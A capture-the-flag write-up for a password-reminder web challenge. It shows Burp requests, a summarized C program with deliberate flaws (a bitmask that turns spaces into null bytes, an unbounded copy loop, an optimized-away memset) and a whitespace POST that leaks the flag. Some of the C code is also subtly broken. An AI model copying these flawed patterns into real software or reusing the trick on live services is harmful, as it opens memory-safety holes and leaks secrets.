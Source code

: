 # WriteUP for the "GiveMeThaPassword" Challenge  

## Recon
At first we receive a link to the challenge. 

Inspect it and we receive a blank page. Umm smells like we are going to use burp.

Use Burp proxy to inspect the GET request.

When we try to make the GET we receive a 400 Bad Request.

Since we don't have any more info, let's change to POST Request.

We do the POST and receive this:

```tcp
HTTP/1.1 200 OK
Content-Length: 41
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:46:26 GMT
Connection: close

Passwords must be at least 8 characters! 
```

Nice! :)

Sending a password with 8 characters:

```tcp
HTTP/1.1 200 OK
Content-Length: 64
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:48:49 GMT
Connection: close

Looks like you forgot your password! Your password is: AAAAAAAA
```

OK, now we know how the request are working, let's check the code.

We can summarize the code in this lines:

```c
void ctf(char *password, int print) {
	char buffer[256];
	int pwdlen = strlen(password);

	if (strlen(password) < 8) {
		printf("Passwords must be at least 8 characters!\n");
		return;
	}
	// passwords are case-insensitive
	//uppercase
	while (password) {
		//WARNING 1!
		*password &= ~0x20; //*password = *password & ~0x20; to uppercase
		password++;
	}
	//cpy
	while (*password) {
    //WARNING 2!
		*buffer = *password;
		buffer++;
		password++;
	}
	//email
	if (print){
		printf("Looks like you forgot your password! Your password is: ");
		for (int i = 0; i < n; i++) {
			printf("%c", password[i]);
		}
		printf("\n");
	}
	// Erase sensitive information!!
  	//WARNING 3!
	memset(buffer, ' ', 256);
}

int main(int argc, char *argv[]) {
	while (--argc) {
		char buffer[256] = {0};
		strcpy(buffer, argv[argc]);
		ctf(&buffer[0], argc == 1);
	}

	return 0;
}
```
As you can see in the code, I added 3 warnings, let's check it to see how we can retrive the password.

## Warning 1
```c
*password &= ~0x20;
```
This part makes the AND operation in the sixth bit so:

If we have an 'a' and we want to change it to an 'A' we do this:

```
a 	=	0110 0001
~0x20	=	1101 1111
    	 	---------
A 	=	0100 0001    
```
This type of bit manipulation is also pretty dangerous, mostly because we can send NULL 
signals using a SPACE character:

```
' '	=	0010 0000
~0x20	=	1101 1111
    	 	---------
NULL	=	0000 0000    
```
Note for the future: "Send whitespaces, maybe i'll find something" ( ͡° ͜ʖ ͡°)

## Warning 2
```c
while (*password) {
*buffer = *password;
		buffer++;
		password++;
	}
```
This is another example of how NOT to copy a variable in C. With this type of code I can write outside
the buffer (buffer overflow) and access other parts of the memory or even manipulate
the flow of the program; sending NULL signal for example, because the while will never
be true.

**This part allow us to not overwrite the last password typed, maybe from of another user.**

## Warning 3
```c
memset(buffer, ' ', 256);
```
This function is being optimized by the compiler, and it's not running. ¯\\_(ツ)_/¯


## Exploit
With everything that we learned before we can clearly send this NULL signals and watch the
behaviour of the app.

```tcp
POST /password/remind HTTP/1.1
Host: xxx.es
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

                                                      
```   
Response:                                                
```tcp
HTTP/1.1 200 OK
Content-Length: 110
Content-Type: application/octet-stream
Date: Sun, 27 Dec 2020 19:51:19 GMT
Connection: close

Looks like you forgot your password! Your password is: FLAG[INSOVIETRUSSIAFLAGCAPTURESU]
``` 

That's all folks!
